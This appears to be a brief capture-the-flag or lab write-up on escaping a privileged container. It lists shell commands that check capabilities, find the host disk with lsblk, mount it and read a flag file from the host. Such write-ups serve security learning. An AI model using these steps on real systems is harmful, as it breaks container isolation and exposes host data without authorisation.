 WRITE-UPS

Privileged container

identify capabilities with:
```console
capsh --print
```

search for mounting points with:

```console
lsblk
```
this will show you:

```console
root@98cc2350da20:~# lsblk
NAME    MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvda    202:0    0   10G  0 disk 
|-xvda1 202:1    0    9G  0 part /etc/hosts
|-xvda2 202:2    0    1K  0 part 
`-xvda5 202:5    0  975M  0 part [SWAP]
xvdh    202:112  0    1G  0 disk 
```
Now make a folder for mounting:

```console
mount /dev/xvda1 /tmp/host
```

Now you can simply cat the flag from host:

```console
cat /tmp/host/etc/flag.txt
```
